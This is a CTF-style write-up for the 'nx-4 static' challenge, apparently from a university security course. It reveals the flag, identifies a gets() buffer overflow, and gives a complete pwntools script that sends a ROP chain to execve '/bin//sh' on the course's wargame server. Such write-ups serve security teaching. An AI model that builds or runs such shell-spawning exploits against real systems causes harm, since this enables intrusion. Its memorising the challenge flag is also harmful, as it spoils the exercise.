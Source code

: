 nx-4 | static
===========================

Flag: 6447{698fe9fd-1c5e-4992-b2c0-6df10e7e718a}

General overview of problems faced
-------------------------------------
Learned to used ropper in order to create a rop-chain

List of vulnerabilities
--------------------
1. The program uses `gets` in order to take input into a fixed sized buffer

Steps to exploit
------------------
1. Use ROPgadget to create a ropchain by running `ROPgadget --binary static --ropchain`
2. Send 12 bytes of padding followed by your rop chain

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
from pwn import *
from struct import pack

# flag : 6447{698fe9fd-1c5e-4992-b2c0-6df10e7e718a}

def main():
    t = "wargames.6447.sec.edu.au"
    h = "8004"

    r = remote(t, h)

    padding = 12

    # Padding goes here
    p = 'A' * padding

    p += pack('<I', 0x0806eada) # pop edx ; ret
    p += pack('<I', 0x080ea060) # @ .data
    p += pack('<I', 0x080bb236) # pop eax ; ret
    p += '/bin'
    p += pack('<I', 0x0809a54d) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806eada) # pop edx ; ret
    p += pack('<I', 0x080ea064) # @ .data + 4
    p += pack('<I', 0x080bb236) # pop eax ; ret
    p += '//sh'
    p += pack('<I', 0x0809a54d) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806eada) # pop edx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x080543e0) # xor eax, eax ; ret
    p += pack('<I', 0x0809a54d) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080481c9) # pop ebx ; ret
    p += pack('<I', 0x080ea060) # @ .data
    p += pack('<I', 0x0806eb01) # pop ecx ; pop ebx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x080ea060) # padding without overwrite ebx
    p += pack('<I', 0x0806eada) # pop edx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x080543e0) # xor eax, eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x080493e1) # int 0x80

    r.sendline(p)
    r.interactive()

if __name__ == "__main__":
    main()
```

